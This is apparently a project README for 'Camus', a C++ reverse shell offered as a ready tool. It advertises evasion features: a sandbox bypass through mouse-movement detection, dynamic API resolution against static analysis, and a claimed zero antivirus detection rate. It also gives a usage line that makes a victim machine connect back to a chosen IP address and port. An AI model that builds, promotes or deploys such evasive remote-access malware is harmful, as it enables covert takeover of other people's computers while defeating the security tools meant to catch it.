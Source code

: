 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>


Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555

[Notice] When you trying to test the tool remember to change the mouse cursor otherwise it would be terminated.



 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">

